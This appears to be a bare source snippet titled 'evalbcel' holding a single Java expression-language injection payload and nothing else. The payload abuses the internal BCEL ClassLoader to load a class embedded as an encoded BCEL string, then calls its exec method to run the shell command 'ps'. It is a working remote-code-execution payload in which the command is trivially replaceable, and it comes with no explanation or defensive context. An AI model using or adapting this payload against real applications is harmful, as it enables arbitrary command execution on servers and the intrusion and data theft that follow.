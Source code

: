 # evalbcel
${''.class.forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$$$l$8b$I$I$7c$m$n_$A$Deval$$class$A$8dT$5bO$TQ$Q$fe$O$ddv$cb$b2$U$u$d7$827$f0$c2B$vU$f1$da$o$m$V$US$c1$80$c14$3em$b7$87$ba$a4$ddm$b6$5b$c2$3f$f2Uc$d2$gI$7c$f4$c1$9f$e2$8fP$e7l$97$5eB$8d$b6$e9$cc93$df$99$f9f$e6$9c$fe$f8$f5$f5$h$80$3bx$a9$60$Y$8b2$e2$K$fa$84$5e$92$91P$b0$8c$a4$Q$b7$VB$dcU$Q$c4$8a$C$J$f7$84$b8$_$80$P$c2x$u$f4$p$Z$8fe$a4$YB$ab$a6e$bak$M$Bm$e1$90A$ca$d8$F$ce0$945$z$be$5b$x$e7$b9$f3F$cf$97$c8$S$cd$da$86$5e$3a$d4$jS$ec$7d$a3$e4$be7$ab$U$p$cbO$f4R$9a$f6$fc$94$h$M$b7$b4$ec$b1$7e$a2$tK$baUL$k$b8$8ei$V$d3$L$XM$94$d3$u$XD$e8$k$ae$c1$aa$b7$da$ac$99$a5$Cw$Yb$X$40$be$8b$b0$91$7c$ed$e8$88$3b$bc$b0$cfu$P$3c$d5$E$9bvr$b3$cb$p$u$96$a82$ca$ecp$o$ael$9d$g$bc$e2$9a$b6U$95$n$9ce$dd$b4$Y$s$b4w$3d$K$Q$dd$d1$9d$o$j$h$ed$e1$a6$60$Hv$cd1$f8$b6$v$3a$d3$_$3a$b2$yP$wF$Qe$98$fc$L$7d$ca$d6$9b$x$95$7c$ee$d8$b1$w5$97Nq$bd$dc$f4$c9XU$f1$Ek$w$a6$b0$$cC$c5Sl$8aD$Z$n$9e$a9$d8$c2$b6$8a$e7x$c1$c0$U$V$3b$d8$W$b3$nF$M$c3m$k$7b$f9cn$b8TN$x$cf$5e$ab$l$M$pm$e0$7e$cdr$cd2U$a5$U$b9$db$da$8ck$9d3$f5$cd$d4$87$f9$7fL$ff$b5c$h$bcZMw$a5$f0$8d4KJ$d1Q$_5$ee$3cMw$p$e8$f8$94$d6$d3$n$G5$dav$f9$93$X$d60$f9$LYo$fecZ$cf$L$Z$d2$x$Vn$d1$9dL$fc$d7$Vn_$c1$b0k7M$98$c5$Q$3dL$f1$J$80$89$d9$93$i$a5$dd$KiF$3a$b8$d8$A$fbD$8b$3e$8c$91$U$8f$91$8c$f4$3ee$8c$d3Jm$820$81I$d2T$qb$84$Q$B$3e$pD_$ms$86$be$5c$D$81Wg$90rg$I$e6$be$m$U$afC$ae$p$dc$40$7f$D$can$a2$8e$81$5cJ$fa$8e$e8RL$aaC$8d$O$92x$fb$e1$f7$cf$a5$3a$o$a9$60$y$f8$b1$95$7e$da$L$a9$m$8c$Bb$3e$888$oH$R$ff$Nb$$$e8$ac5S$fat$c4j$g3D$x$8c4$$$e12E$99$c5$i$ae$e0$wU$ab$91$e7$g$fd$q$3a$j$m$fb$M$951Gg$q$c2_G$3fn$e0$a6$df$8b$b8W$g$3a$fb$Q$f2$Mc$j$3d$a0$ff$R$cc$7bZ$f3P$L$7f$A$f1$e1$81$9c$fb$E$A$A').newInstance().exec('ps')}
